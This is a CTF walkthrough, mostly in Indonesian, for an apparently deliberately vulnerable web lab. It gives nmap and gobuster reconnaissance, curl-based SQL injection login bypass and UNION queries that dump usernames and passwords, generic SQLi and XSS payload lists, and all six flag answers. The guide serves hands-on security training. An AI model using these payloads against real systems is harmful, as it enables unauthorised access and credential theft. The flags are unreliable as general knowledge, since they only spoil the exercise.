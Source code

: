 # 🔧 Manual Testing Guide - No Advanced Tools Required

## 🎯 Overview
Panduan ini menunjukkan cara menyelesaikan CTF hanya dengan tools dasar: **browser, curl, nmap, dan gobuster**.

## 🛠️ Required Tools Only
```bash
# Linux/macOS
sudo apt install nmap gobuster curl firefox  # Ubuntu/Debian
brew install nmap gobuster curl              # macOS

# Windows
choco install nmap gobuster curl firefox
```

## 🔍 Step-by-Step Manual Testing

### Phase 1: Reconnaissance
```bash
# Port scanning
nmap -p- [TARGET_IP]
nmap -sV -p 8080,8081,3306 [TARGET_IP]

# Directory enumeration
gobuster dir -u http://[TARGET_IP]:8080 -w /usr/share/wordlists/dirb/common.txt

# Information gathering
curl http://[TARGET_IP]:8080/robots.txt
curl -s http://[TARGET_IP]:8080 | grep -i "<!--"
```

### Phase 2: SQL Injection (Manual)

#### Login Bypass
```bash
# Test dengan curl
curl -X POST http://[TARGET_IP]:8080/ \
  -d "username=admin' OR '1'='1'-- &password=test&login=Login" \
  -c cookies.txt

# Atau gunakan browser:
# Username: admin' OR '1'='1'-- 
# Password: anything
```

#### Database Enumeration
```bash
# Test search functionality
curl -X GET "http://[TARGET_IP]:8080/dashboard.php?search=' UNION SELECT 1,2,3,4,5-- " \
  -b cookies.txt

# Extract user data
curl -X GET "http://[TARGET_IP]:8080/dashboard.php?search=' UNION SELECT 1,username,password,role,5 FROM users-- " \
  -b cookies.txt

# Extract employee data (contains flags)
curl -X GET "http://[TARGET_IP]:8080/dashboard.php?search=' UNION SELECT 1,name,department,secret_note,5 FROM employees-- " \
  -b cookies.txt
```

### Phase 3: XSS Discovery (Browser)

1. Login ke aplikasi
2. Search untuk "Alice" di dashboard
3. Lihat hasil yang mengandung `<script>alert("FLAG{xss_found_h3r3}")</script>`
4. XSS payload akan ter-execute di browser

### Phase 4: Manual Flag Collection

#### Flag 1: Hidden Service
```bash
# Akses hidden service yang ditemukan dari nmap
curl http://[TARGET_IP]:8081
# Flag: FLAG{hidden_service_discovered_8081}
```

#### Flag 2: Backup Files
```bash
# Dari gobuster, akses backup directory
curl http://[TARGET_IP]:8080/backup/database.sql
# Flag: FLAG{backup_files_exposed_g0bust3r}
```

#### Flag 3: SQL Injection
```bash
# Setelah berhasil login sebagai admin
# Flag: FLAG{sql_injection_master_b4d1c0d3}
```

#### Flag 4: XSS
```bash
# Search "Alice" di dashboard untuk melihat XSS
# Flag: FLAG{xss_found_h3r3}
```

#### Flag 5: Admin Access
```bash
# Akses admin panel setelah login
curl http://[TARGET_IP]:8080/admin/secrets.php -b cookies.txt
# Flag: FLAG{admin_access_s3cr3t_pr0j3ct}
```

#### Flag 6: Final Vault
```bash
# Akses security vault
curl http://[TARGET_IP]:8080/admin/vault.php -b cookies.txt
# Flag: FLAG{vault_master_mystery_solved_c0mpl3t3}
```

## 🌐 Browser-Only Method

### Using Developer Tools
1. **F12** untuk buka Developer Tools
2. **Network tab** untuk monitor HTTP requests
3. **Console tab** untuk test JavaScript
4. **Elements tab** untuk inspect HTML

### Manual SQL Injection via Browser
1. Buka `http://[TARGET_IP]:8080`
2. Di login form:
   - Username: `admin' OR '1'='1'-- `
   - Password: `anything`
3. Submit form
4. Jika berhasil, akan redirect ke dashboard

### Manual Search Testing
1. Di dashboard, gunakan search box
2. Test payload: `' UNION SELECT 1,2,3,4,5-- `
3. Lihat response untuk confirm SQL injection
4. Extract data dengan payload yang lebih spesifik

## 📝 Manual Payload Testing

### SQL Injection Payloads
```sql
-- Authentication bypass
admin' OR '1'='1'-- 
admin' OR 1=1-- 
' OR '1'='1
' OR 1=1#

-- Union-based injection
' UNION SELECT 1,2,3,4,5-- 
' UNION SELECT 1,username,password,role,5 FROM users-- 
' UNION SELECT 1,name,department,secret_note,5 FROM employees-- 

-- Database enumeration
' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables-- 
' UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_name='users'-- 
```

### XSS Testing Payloads
```javascript
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
```

## 🎯 Success Indicators

### SQL Injection Success
- Login berhasil tanpa kredensial valid
- Error messages yang mengungkap database info
- Data extraction berhasil

### XSS Success
- JavaScript alert muncul
- Payload ter-execute di browser
- Content injection berhasil

### Reconnaissance Success
- Port 8081 ditemukan (hidden service)
- Directory `/backup/` ditemukan
- File `robots.txt` memberikan hints

## 💡 Tips Manual Testing

1. **Gunakan Browser Developer Tools** - Network tab untuk monitor requests
2. **Save Cookies** - Gunakan `-c cookies.txt` dan `-b cookies.txt` di curl
3. **URL Encoding** - Encode special characters jika diperlukan
4. **Error Messages** - Perhatikan error messages untuk clues
5. **Source Code** - View page source untuk hidden comments

## 🚫 No Advanced Tools Needed

CTF ini dirancang agar bisa diselesaikan tanpa:
- ❌ Burp Suite
- ❌ OWASP ZAP  
- ❌ SQLmap
- ❌ Metasploit
- ❌ Custom scripts

Hanya perlu:
- ✅ Browser dengan Developer Tools
- ✅ Curl untuk HTTP requests
- ✅ Nmap untuk port scanning
- ✅ Gobuster untuk directory enumeration
- ✅ Basic command line skills

---

**Happy Manual Testing! 🕵️♂️**

*Remember: Understanding the fundamentals is more important than using advanced tools!*